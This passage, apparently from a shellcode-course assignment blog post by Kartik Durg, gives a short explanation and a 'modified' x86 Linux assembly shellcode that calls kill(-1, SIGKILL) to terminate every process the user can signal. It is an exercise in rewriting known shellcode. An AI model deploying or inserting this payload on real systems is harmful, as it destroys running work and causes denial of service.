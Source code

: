As you can see its pretty simple, this code sets EBX to -1, EAX to 0x25 and ECX to 9

#### Modified code:

```
global _start

section .text
_start:
     ; kill(-1, SIGKILL=9)
     xor ebx,ebx
     dec ebx
     push byte 0x25
     pop eax
     push byte 9 
     pop ecx 
     int 0x80
```

___

[https://github.com/kartikdurg/SLAE/tree/master/Assignment_0x6](https://github.com/kartikdurg/SLAE/tree/master/Assignment_0x6)

Thank you for reading 🙂

– Kartik Durg